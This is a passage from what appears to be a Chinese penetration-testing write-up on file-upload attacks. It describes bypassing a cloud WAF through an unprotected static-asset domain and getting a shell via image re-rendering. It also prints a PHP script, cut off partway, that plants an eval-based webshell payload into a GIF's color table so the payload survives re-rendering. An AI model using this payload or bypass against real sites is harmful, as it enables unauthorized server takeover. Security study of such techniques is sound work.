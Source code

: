 ![image.png](02.文件上传.assets/2023_05_19_14_38_12_KNE6A528.png)
![image.png](02.文件上传.assets/2023_05_19_14_38_12_1R06tmHe.png)
云WAF的流量绕过也可以通过真实IP或者其他解析到站点的域名，因为管理员可能没有对所有的域名和IP走云WAF，就可以只绕过上传php文件的拦截，后面的流量检测是没有的。最开始拿到shell也是走一个加速域名(shell后查看了图片渲染处的源码，为后续直接对阿里云的POC构造省下了好多事)，这里估计是开发想着所有流量都过云WAF会很慢，于是把很多静态资源放在了另外一个域名上，但是这个域名并没有受到云WAF保护，没有云WAF保护，利用上面的二次渲染绕过直接getshell：
![image.png](02.文件上传.assets/2023_05_19_14_38_12_uZkIBsCF.png)
#### GIF二次渲染
常见的方法是将GIF上传后的文件下载回来与源文件对比，找到未进行修改的部分插入PHP代码，但是操作起来很不方便。有没有类似JPG实现的自动脚本呢？在[一篇博客](https://blog.isec.pl/injection-points-in-popular-image-formats/)中发现了实现方法，原脚本将生成一个纯色的GIF图，将脚本修改后可以对任意GIF文件进行代码注入：
```php
<?php 
  // createGIFwithGlobalColorTable.php 
  $_file="example.gif"; 
  //保存的文件名 
	$_payload="00php /*123456789abcdefgh<?php 12345*
  /eval(\$_GET[1]);/*ijk*/eval(\$_REQUEST['11pass'])?>";
	// POC 
	$_width=200; 
	$_height=200; 
	if(strlen($_payload)%3!=0){ 
    echo "payload%3==0 !"; 
    exit(); 
  } 
	$im = imagecreate($_width, $_height); 
	// 创建新的gif图 
	$im = imagecreatefromstring(file_get_contents("SwipeTeachingCalloutImage.layoutdir-LTR.gif")); //使用提供的Gif图 
	$_hex=unpack('H*',$_payload); 
	$colors_hex=str_split($_hex[1], 6); 
	for($i=0; $i < count($colors_hex); $i++){ 
```